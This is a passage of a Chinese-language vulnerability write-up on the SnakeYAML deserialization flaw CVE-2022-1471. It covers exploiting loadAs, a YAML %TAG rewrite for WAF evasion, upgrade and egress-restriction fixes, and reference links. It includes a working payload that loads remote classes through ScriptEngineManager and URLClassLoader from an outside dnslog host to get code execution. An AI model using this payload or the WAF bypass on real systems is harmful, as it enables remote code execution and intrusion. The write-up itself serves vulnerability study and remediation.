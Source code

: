 在分析的过程中我发现了一些好玩的地方，手下时除了load方法可以利用该payload外，如果我们使用的时loadAs方法被人制定了目标类的类型应该怎么办？

当然如果类型不匹配，即ScriptEngineFactory如果不是目标类的子类或这实现类，就没得玩，但是如果是一些抽象级别比较高的类还是大有可为的，比如xxxx组件就是这么干的，嗯一个CVE到手了。

两外我们可以利用Yaml语法中的TAG特性来实现WAF绕过，我们只需要对payload进行以下的变形

```yaml
%TAG !m! tag:yaml.org,2002:java
---
!m!x.script.ScriptEngineManager [!m!.net.URLClassLoader [[!m!.net.URL ["http://i0hrz1.dnslog.cn"]]]]
...
```

依旧RCE，还可以用来绕WAF

![image-20230814195046711](assets/SnakeYaml反序列化漏洞（CVE-2022-1471）/image-20230814195046711.png)



## 修复措施

1. 升级软件到不受影响的版本或最新版，最新版maven仓库地址：https://mvnrepository.com/artifact/org.yaml/snakeyaml/2.1。
1. 限制服务器出网



## 参考链接

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1471
- https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2022-1471
- https://www.cnnvd.org.cn/home/globalSearch?keyword=CVE-2022-1471
- https://www.cnblogs.com/nice0e3/p/14514882.html
- https://y4tacker.github.io/2022/02/08/year/2022/2/SnakeYAML%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%8F%8A%E5%8F%AF%E5%88%A9%E7%94%A8Gadget%E5%88%86%E6%9E%90/
- https://www.cnblogs.com/R0ser1/p/16213257.html
